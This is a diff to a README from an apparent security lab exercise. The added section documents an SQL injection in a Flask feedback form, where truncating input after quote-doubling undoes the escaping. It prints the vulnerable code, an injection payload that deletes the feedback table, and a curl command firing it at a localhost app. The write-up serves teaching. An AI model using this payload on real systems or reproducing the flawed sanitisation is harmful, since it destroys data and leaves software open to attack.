

Before and after one commit to bragov4ik/ncs_lab_4, a Markdown page: README.md, the part around one of its changes. Shown at 88% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -18,3 +18,46 @@ To start the program use this:
 export FLASK_APP=main
 flask run
 ```
+
+## About vulnerabilities
+### SQL Injection
+#### Description
+This vulnerability allows malicious users to execute unintended queries on the server database (or existing queries with unexpected parameters). It allows to perform some dangerous actions on the database, which include deletion of the records, stealing of the personal data, and etc.
+
+#### Technical description
+Currently user input is sanitized naively (by replacing single quote with two single quotes: `'` -> `''`). However, after the sanitizing the input is trimmed to not exceed a certain threshold, which may revert this action. Let's look at the code snippet that manages the SQL query:
+```python
+author = sanitize(author)
+text = sanitize(text)
+author = author[:128]
+text = text[:512]
+q = "INSERT INTO feedback (author, text) VALUES ('{}', '{}');".format(
+    author, text
+)
+conn.cursor().executescript(q)
+```
+Here, if `author` would be equal to 127 `a` characters and one `'`, sanitize would transform it into 129 character-long string and after that remove the last appended quote. This will turn the query into
+```python
+"INSERT INTO feedback (author, text) VALUES ('aa...aa'', '{}');"
+```
+which will allow to write unescaped data into the second field. For example, we could send
+```python
+text=",');delete from feedback;--"
+```
+which will result in
+```python
+text = sanitize(text)
+text == ",'');delete from feedback;--" # True
+"INSERT INTO feedback (author, text) VALUES ('aa...aa'', ','');delete from feedback;--');"
+```
+and this is a valid SQL query that gets executed and results in `feedback` table being purged.
+##### Note
+We can't simply type the values in the input fields since `maxlength` attribute does not allow us to do so. However, we can easily remove it by opening the page source code and editing it.
+#### Exploitation process
+Using tool `curl` we can exploit the vulnerability:
+```bash
+curl -d "author=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'&text=,');delete from feedback;--" -X POST http://127.0.0.1:5000/feedback
+```
+Assuming the application is running at http://127.0.0.1:5000/
+#### Screenshots during exploitation
+
````
Also changed, not shown: other parts of README.md (+30 -1 lines), images/after_sqli.png (added), images/attack_sqli.png (added), images/before_sqli.png (added), 5 other files.
